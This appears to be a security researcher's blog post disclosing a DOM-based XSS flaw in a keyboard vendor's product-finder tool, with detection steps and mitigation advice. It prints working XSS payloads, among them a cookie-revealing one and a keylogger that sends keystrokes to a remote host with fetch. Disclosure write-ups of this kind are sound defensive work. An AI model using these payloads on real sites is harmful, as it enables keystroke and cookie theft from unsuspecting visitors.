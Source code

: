 ```yaml
---
layout: post
title: "Zero-Day Research:  Mechanical Keyboard Finder Version 4.31"
featured-img: mk0day
author: Josiah Bryan
category: [Zero Day Research]
---
```


## Introduction
In this edition of *Zero-Day Research*, I happen to come across a DOM-based Cross Site Scripting Vulnerability in 'Mechanical Keyboard's (MK's) Famous Mechanical Keyboard Finder (Version 4.31)' and helped their team verify the issue upon request. I have to give lots of kudos to the awesome security team at MK. They quickly responded and patched the issue within a day of disclosure. If more vendors were as serious as MK about security, our nation's overall cyber posture would be in much better shape. MK is an industry-leading mechanical keyboard vendor with unique varieties of mechanical keyboards for sale. You can check them out [here](https://mechanicalkeyboards.com).

## Disclosure and Disclaimer
The Cross Site Scripting vulnerability was responsibly disclosed and verified (upon request) to the MK security team. This post was intended for web developers who are interested in keeping their applications secure and is for **EDUCATIONAL PURPOSES ONLY**. I do not condone illegal activity and cannot be held responsible for the misuse of this information.

## Cross Site Scripting
Cross-Site Scripting (XSS) is a common web vulnerability that allows an attacker to inject malicious javascript into normal websites. XSS is a client-side attack, where the end-user connecting to the application is the victim. This enables attackers to steal credentials, hijack accounts, access sensitive data, and much more. For more information on cross-site scripting, PortSwigger has fantastic in-depth [articles](https://portswigger.net/web-security/cross-site-scripting) explaining the different types of XSS and how they can impact end-users.

## DOM Based XSS
[OWASP](https://www.owasp.org/index.php/DOM_Based_XSS) refers to DOM Based XSS as "an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment”. The DOM in this context is the "Document Object Model", or the tree structure and programming interface that is used to construct HTML web pages:


![DOMexample](/assets/img/posts/DOMexample.png)<br/>


DOM-based XSS can be more difficult to discover than other forms of XSS because it requires a detailed review of how and where the user input is stored within the DOM. Context is the most important aspect when searching for DOM XSS because the location where user input is stored will almost certainly be different in each scenario and application.

## Identifying the Vulnerability
The overall process for identifying DOM XSS bugs is simple:

1. See if the application stores user input somewhere in the DOM
2. See if the application filters certain characters or sanitizes the input. If the application sanitizes user input using techniques like HTML or javascript encoding, DOM XSS might not exist in the application.
3. If the application stores user input without sanitization, you can guarantee some extent of XSS is possible. Even with a Web Application Firewall (WAF) in play, there is an infinite amount of XSS filter bypasses that can be applied to the payload. Only upon request with full permission from the vendor should you every POC (or verify) the vulnerability on a live application. Given that we have permission to verify, we can then start crafting an attack based on where the input is stored in the DOM.

Let's start with a basic request like so:

```
xss
```

We can then search for our unique 'xss' term in the DOM after the request has been made:
* In Firefox (or any browser), right-click on the results page and select 'View Page Source':
* On the HTML source page, select Control/Command+f the find a term


![source](/assets/img/posts/basic_source.png)
<br/>
<br/>

After verifying the location and presence of our search term in the DOM we can add a few special characters to the end of the term like so:

```
xss>"'
```


Repeating the previous few steps we can verify if our new search term is stored in the DOM without being converted to an HTML entity. A basic list of basic HTML entities is shown below:

![entities](/assets/img/posts/entities_html.png)

In this particular situation, the special characters were not converted to HTML entities. That being said, we can close off the encompassing attribute or tag as a part of our search term and effectively add our code to the DOM.


## Payload Crafting

In this context we want to craft a payload that closes off the preceding h3 tag, continues to execute some code, and adds a trailing h3 tag to achieve a correct number of matching tags:
```
Sample payload: 

</h3><img src=x onerror=prompt(document.domain)><h3>
```
This will cleanly close off the encompassing h3 tag and allow us to execute code that will pop up an alert to the screen with the name of the vulnerable domain:

![alert](/assets/img/posts/domain_redac.png)

It worked! <br/><br/>**Note**: in scenarios where the application does some form of basic input sanitization searching for bad characters we could url encode our payload like so:

```
Sample payload encoded: 
%3C%2Fh3%3E%3Cimg%20src%3Dx%20onerror%3Dprompt%28document.domain%29%3E%3Ch3%3E
```

## Taking it Further
This XSS bug not only modifies the DOM but is reflected in the URL. This means we could carry out the XSS attack by providing a simple link in a phishing campaign. Collecting user cookies at this point is trivial:

```
</h3><img src=x onerror=prompt(document.cookie)><h3>
```

![cookies](/assets/img/posts/cookie_redac.png)

Keylogging and shipping the data off to a remote server is also quite simple:
```
</h3><img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'><h3>
```

From here the possibilities are endless. There are quite a few XSS [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) on the web. Some possible attack scenarios include: 

* Account Hijacking
* Port Scanning
* Spying/Keylogging
* Browser Hooking with [BeEF](https://beefproject.com/)
* Installing Backdoors/Malware

## Mitigation

DOM XSS can be hard for automated scanners to find at times because of its dynamic nature. This type of bug is quite common across the Internet but can be prevented by treating all user input as malicious and sanitizing the data in question. 

PHP (the language used by this site) offers useful functions to achieve sanitization, such as [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) and [htmlentities()](https://www.php.net/manual/en/function.htmlentities.php). These functions will automatically convert special characters to HTML entities. Most languages offer these types of libraries and functions to make sanitizing user input quite easy. One mistake developers make is attempting to implement filtering and sanitization using client-side controls. Each user has complete control over the client, rendering client-side sanitization efforts useless.

## References

* https://portswigger.net/web-security/cross-site-scripting
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
* https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html 
* https://www.owasp.org/index.php/Testing_for_Cross_site_scripting
* https://www.geeksforgeeks.org/dhtml-javascript/
* https://mechanicalkeyboards.com/about.php 
* https://www.owasp.org/index.php/DOM_Based_XSS
* https://www.w3schools.com/html/html_entities.asp
* https://www.google.com/about/appsecurity/learning/xss/
* https://www.php.net/manual/en/function.htmlspecialchars.php
* https://www.php.net/manual/en/function.htmlentities.php

<br/><br/>
**Proverbs 2:6-8**<br/>
For the Lord gives wisdom; from his mouth come knowledge and understanding...